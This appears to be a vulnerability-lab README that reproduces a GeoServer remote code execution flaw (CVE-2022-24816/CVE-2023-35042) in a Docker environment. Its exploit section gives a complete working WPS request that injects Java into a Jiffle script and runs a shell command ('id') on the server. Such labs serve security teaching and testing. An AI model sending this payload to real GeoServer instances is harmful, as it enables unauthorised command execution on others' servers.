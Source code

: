 # GeoServer Remote Code Injection caused by JAI-EXT (CVE-2022-24816/CVE-2023-35042)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

GeoServer uses the Jiffle map algebra language provided by JAI-EXT, which allows efficiently execute map algebra over large images. A code injection vulnerability (CVE-2022-24816) has been found in JAI-EXT versions 1.2.21 and earlier, that allows a remote code execution to be performed by properly crafting a Jiffle invocation.

When this vulnerability affects GeoServer, it is also known as [CVE-2023-35042](https://osgeo-org.atlassian.net/browse/GEOS-10458). GeoServer versions 2.20.4, 2.19.6, and 2.18.6 and later have fixed this vulnerability by updating the JAI-EXT dependency.

References:

- <https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver>
- <https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx>
- <https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html>
- <https://osgeo-org.atlassian.net/browse/GEOS-10458>
- <https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml>

## Vulnerable Environment

Execute the following command to start a GeoServer 2.17.2 server:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

The vulnerability exists in the WMS endpoint. An attacker can execute arbitrary Java code by sending a specially crafted request to `/geoserver/wms`. The request should include a malicious Jiffle expression that will be evaluated by the server.

Send a request like this to exploit the vulnerability:

```
POST /geoserver/wms HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 2191

<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
    <wps:Input>
    <ows:Identifier>coverage</ows:Identifier>
    <wps:Data>
        <wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999  316]]></wps:ComplexData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>script</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>dest = y() - (500); // */ public class Double {    public static double NaN = 0;  static { try {  java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
    </wps:Data>
    </wps:Input>
    <wps:Input>
    <ows:Identifier>outputType</ows:Identifier>
    <wps:Data>
        <wps:LiteralData>DOUBLE</wps:LiteralData>
    </wps:Data>
    </wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
    <wps:RawDataOutput mimeType="image/tiff">
    <ows:Identifier>result</ows:Identifier>
    </wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
```

After sending this request, the malicious Java code embedded in the Jiffle script will be executed by the server. The command output will be captured and returned to the client within a `java.lang.ExceptionInInitializerError` message:

![](1.png)
